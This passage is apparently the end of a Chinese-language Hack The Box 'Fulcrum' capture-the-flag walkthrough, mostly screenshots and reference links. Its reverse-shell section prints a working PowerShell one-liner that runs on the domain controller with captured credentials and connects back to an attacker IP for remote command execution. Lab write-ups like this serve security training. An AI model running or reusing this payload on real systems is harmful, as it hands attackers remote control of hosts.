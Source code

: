 ## 发现域管密码

[![](assets/1699929055-ee1f15b87abe06c3def74778063c0af9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104435-95137a4c-81ce-1.png)

获取root.txt  
读取到root.txt

[![](assets/1699929055-38528d9791459d01e18fac9ddda11092.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104444-9a08b0e4-81ce-1.png)

## 反弹shell

执行命令，然后使用nc来反弹shell。

```plain
Invoke-Command -Computer dc.fulcrum.local -Credential $cred -scriptblock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  }
```

[![](assets/1699929055-8ca83f1b4673788586921adc02da81a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104457-a218ddd6-81ce-1.png)

REF:  
[https://www.cnblogs.com/autopwn/p/14049762.html](https://www.cnblogs.com/autopwn/p/14049762.html)  
[https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/](https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/)
